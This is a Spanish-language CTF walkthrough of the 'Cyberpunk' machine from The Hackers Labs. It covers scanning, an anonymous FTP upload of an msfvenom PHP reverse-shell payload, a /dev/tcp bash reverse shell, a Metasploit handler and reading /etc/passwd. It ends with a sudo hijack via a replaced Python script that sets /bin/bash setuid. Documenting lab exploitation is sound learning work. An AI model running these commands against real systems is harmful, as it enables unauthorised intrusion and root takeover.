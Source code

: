 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackerLabs
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - FTP
  - ReverseShell
  - SSH
  - PrivilegeEscalation
  - Sudo
  - Hijack
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#FTP|FTP]]
	- [[#Explotación#Reverse Shell|Reverse Shell]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Cyberpunk

>En esta publicación, comparto cómo resolví la máquina **Cyberpunk** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/26).

---
## Enumeración
### Ping

`ping -c 1 192.168.1.40`

![[Pasted image 20250802193434.png]]

*TTL=63* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.40 -oG allPorts`

![[Pasted image 20250802193514.png]]

`nmap -p21,22,80 -sCV 192.168.1.40 -oN targeted`

![[Pasted image 20250802193548.png]]
![[Pasted image 20250802193610.png]]
### HTTP

`http://192.168.1.40/`

![[Pasted image 20250802193641.png]]
#### Fuzzing Web

`dirb http://192.168.1.40`

![[Pasted image 20250802193805.png]]

`gobuster dir -u http://192.168.1.40 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250802193830.png]]

---
## Explotación
### FTP

Se observa en la enumeración que el servicio **FTP** (puerto 21) se encuentra abierto, además de tener el inicio de sesión con el usuario anónimo activado.

`ftp 192.168.1.40`

![[Pasted image 20250802194117.png]]

Se encuentran los siguientes archivos:
- `index.html`.
- `secret.txt`.

Se procede a descargar el archivo `secret.txt`.

`get secret.txt`

`cat secret.txt`

![[Pasted image 20250802194250.png]]

Se genera un *payload malicioso*.

`msfvenom -p php/reverse_php LHOST=192.168.1.127 LPORT=1234 -f raw > pwned.php`

Se sube el archivo generado.

`put pwned.php`

`ls`

![[Pasted image 20250802194525.png]]
### Reverse Shell

Se inicia una escucha en el puerto 1234 para recibir la *reverse shell*.

`nc -nlvp 1234`

`http://192.168.1.40/pwned.php`

`sh -i >& /dev/tcp/192.168.1.127/1235 0>&1`

Se establece una nueva escucha en el puerto 1235 con el objetivo de mantener una sesión persistente mediante una segunda *reverse shell*.

`vim handler.rc`

```
use multi/handler
set PAYLOAD php/reverse_php
set LHOST 192.168.1.127
set LPORT 1235
run
```

`msfconsole -r handler.rc`

![[Pasted image 20250802195700.png]]

`background`

`sessions -u 1`

`sessions 2`

`sysinfo`

![[Pasted image 20250802195804.png]]

`getuid`

![[Pasted image 20250802195829.png]]

Se busca usuarios.

`cat /etc/passwd`

![[Pasted image 20250802202734.png]]

Se identifica el usuario `arasaka`.

Se buscan archivos que puedan contener información útil.

`find / -name *.txt 2>/dev/null`

![[Pasted image 20250802202748.png]]

`cd /opt`

`cat arasaka.txt`

![[Pasted image 20250802202820.png]]

Con [Cipher Identifier](https://www.dcode.fr/cipher-identifier) se identifica el *hash*: **Brainfuck**.

![[Pasted image 20250802202934.png]]

Se desencripta con [Brainfuck Translator](https://md5decrypt.net/en/Brainfuck-translator/).

![[Pasted image 20250802203035.png]]

Se encuentra la contraseña `cyberpunk2077`, del usuario `arasaka`.
### SSH

Se accede al servicio **SSH** (puerto 22) con el usuario y contraseña encontrados anteriormente.

`ssh arasaka@192.168.1.40`

![[Pasted image 20250802203210.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250802210920.png]]

`cat randombase64.py`

![[Pasted image 20250802211008.png]]

Al tener acceso como el usuario `arasaka`, es posible modificar archivos dentro de su directorio `/home/arasaka`.

Se renombra el archivo `randombase64.py`.

`mv randombase64.py prueba.py`

Se crea el archivo `randombase64.py`.

`nano randombase64.py`

```
import base64
import os

message = input("Enter your string: ")
message_bytes = message.encode("ascii")
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode("ascii")

print(base64_message)

os.system("chmod u+s /bin/bash")
```

Se ejecuta el archivo.

`sudo /usr/bin/python3.11 /home/arasaka/randombase64.py`

![[Pasted image 20250803075105.png]]

`bash -p`

![[Pasted image 20250803075353.png]]

---